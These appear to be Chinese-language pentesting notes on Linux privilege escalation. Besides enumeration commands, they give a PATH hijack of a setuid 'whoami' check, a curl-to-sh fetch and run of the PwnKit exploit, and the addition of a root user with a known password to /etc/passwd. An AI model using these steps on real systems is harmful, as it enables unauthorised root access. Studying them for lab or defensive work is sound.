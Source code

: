 # 渗透测试中的提权思路
## 1. 查找提权点
### 系统版本号
```
uname -r //查看系统版本号
```
上网搜索相关漏洞
### 看敏感目录
```
/var/www
/home
```
### 当前目录的权限信息
```
ls -la

Example:
$ ls -la
total 32
drwxr-xr-x  5 user group  4096 Aug 15 10:20 .
drwxr-xr-x 12 user group  4096 Aug 15 09:30 ..
-rw-r--r--  1 user group   220 Aug 15 09:20 .bash_logout
-rw-r--r--  1 user group  3771 Aug 15 09:20 .bashrc
drwxr-xr-x  2 user group  4096 Aug 15 10:18 .config
-rw-r--r--  1 user group   807 Aug 15 09:20 .profile
-rw-r--r--  1 user group     0 Aug 15 10:20 example.txt
drwxr-xr-x  2 user group  4096 Aug 15 10:18 my_folder

d/- 目录/文件
_________ 所有者权限 所属用户组的权限 其他用户的权限
硬链数
所有者及其ta所属的组
最后修改时间
有 . 为文件，无 . 则为目录
```
有个特殊的粘滞位 `t`
粘滞位（sticky bit)：
- **`t`**：粘滞位的存在意味着只有文件的所有者、目录的所有者或超级用户（root）才能删除或重命名目录中的文件。这常用于公共目录（如 `/tmp`），以防止用户删除其他用户的文件。
### `sudo` 命令 （最好不是 www-data 用户）
使用 `sudo` 列出可执行命令
```
sudo -l
```
查看当前用户可以使用 `sudo` 执行的命令列表。
https://gtfobins.github.io/ 配合 `sudo -l` 食用更佳。
### crontab 
`/etc/crontab` https://crontab.guru/
```
cat /etc/crontab // 看有没有 root 权限的定时任务
```
### SUID位文件，最好有 root 的 SUID 位
查找 SUID (Set User ID) 位的文件，这种文件在执行时可以以文件所有者的权限运行，比如 `passwd` 就是一个设置了 SUID 的文件，普通用户在使用时可以执行 root(也就是文件的所有者) 的权限来修改自己的密码。如果要用 root 权限，则需要找出 root 所拥有的文件。
```
find / -perm -4000 -type f 2>/dev/null
```
### 列出以 root 运行的进程
查看以root运行的进程，只是显示当前的，可能要多看几次
```
ps aux | grep -i 'root' --color=auto
```
### 上传 `pspy64` 
`pspy64` 可以一直监视，弥补上面那个命令的缺陷，但动作有点大
https://github.com/DominicBreuker/pspy/releases
## 2. 特殊情况
### 2.1用户名欺骗 `whoami`
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {
    printf("checking if you are tom...\n");
    // 使用popen打开一个子进程执行"whoami"命令，并以读模式打开文件指针f
    FILE* f = popen("whoami", "r");

    char user[80]; // 定义一个字符数组，用于存储用户名
    fgets(user, 80, f); // 从文件指针f中读取最多79个字符到user数组中，留一个空位给'\0'

    printf("you are: %s\n", user); // 打印出当前用户名
    //printf("your euid is: %i\n", geteuid()); // 注释掉的代码，用于打印有效用户ID

    // 检查user数组的前3个字符是否与字符串"tom"相匹配
    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n"); // 如果是"tom"，则打印"access granted."
        setuid(geteuid()); // 将真实用户ID设置为有效用户ID，通常用于提权
        execlp("sh", "sh", (char *) 0); // 执行一个新的shell，替换当前进程
    }
}

// 根据上述程序，对策如下：
// 当前目录为 
echo "printf "tom"" > whoami // 将 `printf "tom"` 写入文件 whoami，如果没有这个文件，就创建

chmod +x whoami // 加执行文件

export PATH=/tmp:$PATH // 将 /tmp 放在环境变量的最前面，覆盖掉原来的 whoami
```
### 2.2 `pkexec`
 前提条件为能找到这个 SUID 文件
`sudo` 和 `pkexec` 都是提权。
`sudo` 主要用于命令行界面（CLI），而 `pkexec` 主要用于图形用户界面（GUI）
https://github.com/ly4k/PwnKit
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
上次成功的时候是切换到用户自己文件夹中。
### 2.3 与备份相关
与备份相关的可能是定时任务，并且执行备份的用户的权限应该很高。
### 2.4 在 `/etc/passwd` 中添加用户
```
/opt/devstuff/test.py
```
代码内容如下
```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 : # sys.argv 是命令行参数数组，包含了命令行参数 
    print ("Usage: python test.py read append")
    sys.exit (1) # 类似于 C 语言的 return 1;

else :
    f = open(sys.argv[1], "r") # 读取 ./test 后第一个输入的文件名
    output = (f.read()) # 先存在 output 中

    f = open(sys.argv[2], "a") # 再打开 ./test 后第二个输入的文件名，并且是 append (附加)的形式
    f.write(output) # 在结尾写上 output 的内容
    f.close()
```

上述代码作用是从 read 处读取一个文件，并将其内容附加到 append 文件结尾，并且这两个操作还是 root 权限，那么就可以往一些敏感文件加信息了。可以往 `/etc/passwd` 中添加信息，也就是加一个 root 用户。

openssl 一般用于 `/etc/passwd` 文件的加密
```
openssl passwd -1 -salt passion 123456
```

得到下面这个经 md5 加密的密码，带有盐值 passion
```
$1$passion$6B1Neow110enwwaaEaWQs.
```

接下来利用 `test`将 `passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash` 附加到 `/etc/passwd` 中
```
cd /tmp

echo 'passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash' > passion

cd /opt/devstuff/dist/test

sudo ./test /tmp/passion /etc/passwd
```

提权成功
```
su passion
123456
```

结束
## 3. 其它
### python3本地开服务器
```
python3 -m http.server 80
```
### 稳定 shell (python版reverse shell)
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
```

